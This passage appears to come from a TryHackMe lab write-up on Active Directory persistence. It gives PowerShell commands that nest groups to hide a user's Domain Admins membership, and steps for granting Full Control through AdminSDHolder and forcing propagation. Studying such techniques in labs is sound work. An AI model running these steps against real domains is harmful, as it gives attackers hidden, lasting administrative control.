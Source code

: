 - Now we can create and add in Sales
```bash
New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "crypt0ace Net Group 2" -SamAccountName "crypt0ace_nestgroup2" -DisplayName "crypt0ace Nest Group 2" -GroupScope Global -GroupCategory Security 

Add-ADGroupMember -Identity "crypt0ace_nestgroup2" -Members "crypt0ace_nestgroup1"
```

- We can keep adding these nests
```bash
New-ADGroup -Path "OU=CONSULTING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "crypt0ace Net Group 3" -SamAccountName "crypt0ace_nestgroup3" -DisplayName "crypt0ace Nest Group 3" -GroupScope Global -GroupCategory Security

Add-ADGroupMember -Identity "crypt0ace_nestgroup3" -Members "crypt0ace_nestgroup2"

New-ADGroup -Path "OU=MARKETING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "crypt0ace Net Group 4" -SamAccountName "crypt0ace_nestgroup4" -DisplayName "crypt0ace Nest Group 4" -GroupScope Global -GroupCategory Security

Add-ADGroupMember -Identity "crypt0ace_nestgroup4" -Members "crypt0ace_nestgroup3"

New-ADGroup -Path "OU=IT,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "crypt0ace Net Group 5" -SamAccountName "crypt0ace_nestgroup5" -DisplayName "crypt0ace Nest Group 5" -GroupScope Global -GroupCategory Security

Add-ADGroupMember -Identity "crypt0ace_nestgroup5" -Members "crypt0ace_nestgroup4"
```

- Now we can add it to Domain Admins
```bash
Add-ADGroupMember -Identity "Domain Admins" -Members "crypt0ace_nestgroup5"
```

- Now we can add our low privileged user to it
```bash
Add-ADGroupMember -Identity "crypt0ace_nestgroup1" -Members "carolyn.king"
```

- We can now see that our user is not shown in Domain Admins
```bash
Get-ADGroupMember -Identity "Domain Admins"
```

- And we are not being seen
---------------------------------------------------------------------------------
- RDP into THMWRK1
- Used `runas` to open a admin command prompt
```bash
runas /netonly /user:Administrator cmd.exe
```

- We can add persistence using AdminSDHolder to add our ACLs
- Opened `mmc`
- From there File->Add Snap-In->Active Directory Users and Groups. View->Advanced Features. We can find the AdminSDHolder group under Domain->System
- Right-click->Properties->Security
- Add your user and give Full Control
- Now every 60 min it will be executed
- We can speed it up by using `Invoke-ADSDPropagation`
```bash
Import-Module .\Invoke-ADSDPropagation.ps1 
Invoke-ADSDPropagation
```
